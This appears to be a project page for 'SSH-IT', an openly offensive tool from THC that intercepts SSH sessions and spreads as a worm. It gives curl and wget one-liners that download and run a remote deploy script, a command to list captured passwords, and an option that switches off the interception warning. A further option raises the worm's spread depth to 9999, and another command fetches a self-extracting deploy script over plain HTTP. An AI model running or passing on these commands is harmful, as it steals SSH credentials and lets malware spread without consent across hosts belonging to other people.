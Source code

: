 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```
~/.prng/thc_ctl -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```
~/.prng/thc_ctl -r uninstall
```

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` Display a warning when *ssh* is being intercepted (in bold red).
* ```THC_DEPTH=2``` The worm will not spread further than 2 hops away from the current host.

{:refdef: style="text-align: center;"}
![Verbose-Example](verbose-example.png)
{: refdef}

Take off all safety and run SSH-IT in release mode (*with no warnings*):
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

Or go bonkers and let the worm run until the Internet runs out of hosts to own:
```shell
THC_DEPTH=9999 THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
### Tips & Tricks

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
chmod 755 ssh-it-deploy.sh && \
./ssh-it-deploy.sh
```

Special thanks to BadAdvert1zer for ideas and testing.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


